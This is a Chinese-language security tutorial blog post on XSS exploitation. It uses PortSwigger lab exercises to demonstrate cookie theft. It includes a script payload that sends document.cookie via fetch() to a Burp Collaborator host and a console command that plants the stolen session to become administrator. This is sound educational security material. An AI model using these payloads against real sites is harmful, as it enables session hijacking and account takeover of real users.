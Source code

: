 ```yaml
---
title: "反射性 XSS 知解 123"
author: Neal
tags: [reflection xss,xss]
keywords: [xss,web安全,渗透测试]
categories: [web安全]
date: "2020-01-04" 
---
```


跨站脚本攻击（Cross-Site Scripting），为了避免与 CSS 混淆，一般简称为 XSS。XSS 作为一种典型的主要可以分为 3 种：

* 反射型 XSS
* 存储型 XSS
* DOM 型 XSS

关于这 3 种 XSS 类型的区别，在这就不展开了，本文主要讲解 XSS 漏洞的利用场景以及如何测试反射型 XSS，当然反射型 XSS 漏洞的测试和其它 XSS 漏洞类型的测试存在很多共同之处的。通常来说，通过 XSS 漏洞攻击者可以在受害者机器上执行任何脚本的话，包括：

* 可以执行受害者可以执行的任何操作
* 可以浏览受害者可以浏览的任何内容
* 可以修改受害者可以修改的任何信息
* 可以通过最初的受害者与应用中其他用户交互，从而发起对其他用户的攻击

不过值得注意的是，反射型 XSS 总漏洞利用过程中也会遇到较多的障碍，经常可能会遇到很多限制：

* cookie 设置为 httponly，无法通过 JS 直接操控 cookie
* 用户输入的内容被进行过滤或者编码
* 受害者可能并没有登录应用，或者应用用户会话与特定的因素有绑定关系，比如 IP 地址或者 MAC 地址，这种情况比较少见

## 典型利用场景

XSS 的利用场景其实是五花八门的，可以说只要你敢想，搞不好你就可以做得到。这里，我们可以选择两个最典型的利用场景进行讲解。在这里我主要使用 PortSwigger 的应用安全学院里面的 lab 进行讲解。

### 盗取 cookie

通过 XSS 漏洞盗取 cookie 可以说是最典型的利用场景了。不过现在随着 HttpOnly 的广泛应用，这一利用场景也产生了一些限制。但是 HttpOnly 也并不能完全保证 XSS 漏洞的防范，因为 HttpOnly 理论上应该覆盖所有的敏感 cookie，如果有一处没有覆盖到，就有被攻击的可能性。另外一方面，通过结合 CORS 也有突破限制的可能性。还有一个实际情况是，仍然有很多应用并没有使用 HttpOnly，本节也主要是针对这一情形的具体利用。

假设有一个博客平台，目前我们已经发现博文的评论处存在存储型 XSS 漏洞。那么如果其它用户打开这一篇博文，就可以通过这个漏洞让这名用户执行任意 JS 脚本，基本上就可以进行任何操作。如果这一名用户是管理员的话，那么危害性就更大，理论上这个管理用在这个博客可以执行的任何操作，攻击者都可以实现。这个攻击场景主要分为三步：

1. 攻击者创建一个 Web 服务，需要保证受害者和这个服务之间是连通的。
2. 注入 XSS 的 payload，实现通过 JS 获取受害者 cookie，并发送给攻击者创建的服务
3. 攻击者通过获取的 cookie 则可以成为应用的合法用户并执行任何操作

创建 web 服务非常简单，可以使用 python 命令既可以创建服务，`python -m SimpleHTTPServer 80`。这样就可以指定一个监听 80 端口的 web 服务。其实 Burp 提供了一个非常实用的利用功能，通过 Burp Collobrator Client 就可以创建一个开放在外网的 web 服务，这样如果你在日常测试中，就无须自己准备一个带有固定 IP 的服务器来创建服务了。

![3ExZJH.png](https://s2.ax1x.com/2020/02/19/3ExZJH.png)

![3Exlef.png](https://s2.ax1x.com/2020/02/19/3Exlef.png)

进入到 Collobrator Client，点击 Copy to clipborad 就可以将服务地址复制到剪切板。我们可以使用 curl 来进行测试：

![3tuMAU.gif](https://s2.ax1x.com/2020/02/25/3tuMAU.gif)

我们可以看到在 client 中可以看到 DNS 请求以及相应的 HTTP 请求，这样通过 Collobrator Client 就不需要在外网自己的服务器下搭建服务。让我们继续重现上面的利用过程，首先我们先准备好要利用的 XSS 的 payload：

```
<script>
fetch('https://d8mzva8z7ou9zrnqkgz49jltyk4asz.burpcollaborator.net',{
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
})
</script>
```

然后我们只需要在 Collobrator Client 等待请求过来，不出意外的话，我们可以看到 administrator 的 cookie。

![3ax38K.png](https://s2.ax1x.com/2020/02/27/3ax38K.png)

下面我们只需要打开浏览器开发者工具，总控制台中输入 `document.cookie = 'session=Xn8ow3pdmd6LWktVZPJtBlI9yKzIKUX3'`，刷新一下页面，我们就成为管理员了。

![3axGvD.png](https://s2.ax1x.com/2020/02/27/3axGvD.png)

### 配合 CSRF 漏洞执行任何操作